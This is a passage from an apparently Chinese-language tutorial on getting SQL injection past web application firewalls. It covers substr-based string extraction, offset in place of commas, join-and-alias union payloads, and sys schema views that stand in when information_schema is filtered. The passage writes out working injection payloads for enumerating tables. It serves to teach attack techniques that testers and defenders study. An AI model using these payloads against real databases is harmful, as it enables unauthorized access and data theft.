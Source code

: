 即，from用来指定从何处开始截取，for用来指定截取的长度，如果不加for的话则 `from 1` 就相当于从字符串的第一位一直截取到最后：

```sql
select substr((select database()) from 1);    # security
select substr((select database()) from 2);    # ecurity
select substr((select database()) from 3);    # curity
select substr((select database()) from 4);    # urity
select substr((select database()) from 5);    # rity
select substr((select database()) from 6);    # ity
select substr((select database()) from 7);    # ty
select substr((select database()) from 8);    # y

# 也可以使用负数来倒着截取:
select substr((select database())from(-1));    # y
select substr((select database())from(-2));    # ty
select substr((select database())from(-3));    # ity
select substr((select database())from(-4));    # rity
select substr((select database())from(-5));    # urity
select substr((select database())from(-6));    # curity
select substr((select database())from(-7));    # ecurity
select substr((select database())from(-8));    # security
```

#### 使用offset关键字绕过

我们可以使用 `offset` 语句替换 limit 语句里的逗号：

```sql
select * from users limit 1 offset 2;
# 此时 limit 1 offset 2 可以代替 limit 1,2
```

#### 利用join与别名绕过

```sql
select host,user from user where user='a'union(select*from((select`table_name`from`information_schema`.`tables`where`table_schema`='mysql')`a`join(select`table_type`from`information_schema`.`tables`where`table_schema`='mysql')b));
```

### 过滤information_schema绕过与无列名注入 *

当过滤or时，这个库就会被过滤，那么mysql在被waf禁掉了information_schema库后还能有哪些利用思路呢？

information_schema 简单来说，这个库在mysql中就是个信息数据库，它保存着mysql服务器所维护的所有其他数据库的信息，包括了数据库名，表名，字段名等。在注入中，infromation_schema库的作用无非就是可以获取到table_schema、table_name、column_name这些数据库内的信息。

能够代替information_schema的有：

- sys.schema_auto_increment_columns 只显示有自增的表
- sys.schema_table_statistics_with_buffer
- x$schema_table_statistics_with_buffe

```sql
select * from user where id = -1 union all select 1,2,3,group_concat(table_name)from sys.schema_table_statistics_with_buffer where table_schema=database();
```
